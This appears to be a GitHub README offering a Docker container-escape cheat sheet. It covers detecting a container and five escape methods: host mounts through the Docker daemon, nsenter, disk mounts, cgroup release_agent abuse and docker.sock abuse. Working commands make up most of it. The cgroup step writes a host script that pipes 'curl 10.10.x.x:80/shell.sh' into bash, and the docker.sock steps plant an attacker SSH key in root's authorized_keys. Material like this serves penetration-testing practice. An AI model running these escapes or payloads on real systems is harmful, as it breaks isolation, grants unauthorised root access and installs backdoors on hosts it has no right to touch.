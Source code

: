 # Docker-Escape

Docker is an open-source containerization platform used for developing, deploying, and managing applications in lightweight virtualized environments called containers.

![OnPaste 20220611-182248](https://user-images.githubusercontent.com/106917304/173188805-30523d98-d755-4b94-8740-7a929aa28d6b.png)


# Exploitation

### Determining if we're in a container

1. Listing running processes
```markdown
ps aux
```
If there are few no. of process is running then you might be in docker.

2. Looking for .dockerenv
```markdown
cd / && ls -lah
```
If you see .dockerenv in base dir, then you're in a container.

3. Those pesky cgroups

Navigating to "/proc/1" and then catting  the "cgroups" file (cat cgroup).

4. Use following code to Verify you are in Docker
```markdown
if [ -f /.dockerenv ]; then
    echo "I'm inside matrix ;(";
else
    echo "I'm living in real world!";
fi
```


## Docker Escaping Techniques

### 1. Escape via Exposed Docker Daemon
Run the following cmd

If we're in bash
```markdown
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

If we're in alpine
```markdown
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

You can see the images repo
```markdown
docker images
docker run -it -v /:/host/ ubuntu:18.04 chroot /host/ bash
```
NOTE: ubuntu:18.04 is the image repo

### 2. Shared Namespaces
By using ps aux you can view the process with processID see pid 1 is running root it is the first one that executed when the system is booted.

Exploiting it with nsenter
```markdown
nsenter --target 1 --mount sh
```

### 3. Escape By Mounting File System
```markdown
lsblk
mount /dev/sda2 /mnt
cd /mnt/root
```
NOTE: In this case sda2 is the dir we mount.

### 4. Misconfigured Privileges
list out all the capabilities
```markdown
capsh --print
capsh --print | grep sys_admin
```
If we get sys_admin capability, means the system is vuln.

On attacker VM.

First make a shell.sh and set python server and set listner.

On target machine.

```markdown
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo $t/c >$d/release_agent;printf '#!/bin/sh\ncurl 10.10.x.x:80/shell.sh | bash' >/c;
chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";
```

### 5. Exploitation of docker.sock in /var/run or /run if you're ROOT

Check /var/run dir for docker.sock file if it's there and you're root then you can exploit it. First see that you can use curl cmd if not then wget curl from your system for static curl see the arch of target machine and get the static curl from [Resource](https://github.com/moparisthebest/static-curl)


STEP1: Listing the images of the container of the host
```markdown
./curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
```

STEP2: Now generate id_rsa in your machine
```markdown
ssh-keygen -t rsa
cat key.pub
```

STEP3: Creating a new docker container with image ID
```markdown
./curl -X POST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock http://localhost/containers/create -d '{"Detach":true,"AttachStdin":false,"AttachStdout":true,"AttachStderr":true,"Tty":false,"Image":"c3:latest","HostConfig":{"Binds": ["/:/var/tmp"]},"Cmd":["sh", "-c", "echo ssh-rsa AAAA..............xfoS+Yb2cW4y9cKcBWpVIiNMEtMX7sIB/0cKl8W/mY4u1UeRzWOoIIew6hqlaWCW6WKeSiCrNzEEj.........................P0/BMcKBS2pzqct2rTQ/LfFFM= root@kali >> /var/tmp/root/.ssh/authorized_keys"]}'
```

NOTE: replace "c3:latest" with the docker image name that you'll get from step1. eg: "RepoTags":["c3:latest"]

Now you'll see you created a docker and get the id. eg: {"Id":"c19a25c6cc7245030bf9741d300f632cc7f1e5f12adad238edce23d387ba00c2","Warnings":[]}


STEP4: Now we gonna use the id and start the docker
```markdown
./curl -X POST -H "Content-Type:application/json" --unix-socket /var/run/docker.sock http://localhost/containers/c19a25c6cc7245030bf9741d300f632cc7f1e5f12adad238edce23d387ba00c2/start
```


STEP5: Login SSH via your private key as user root and now you're root
```markdown
ssh -i key root@10.10.x.x
```

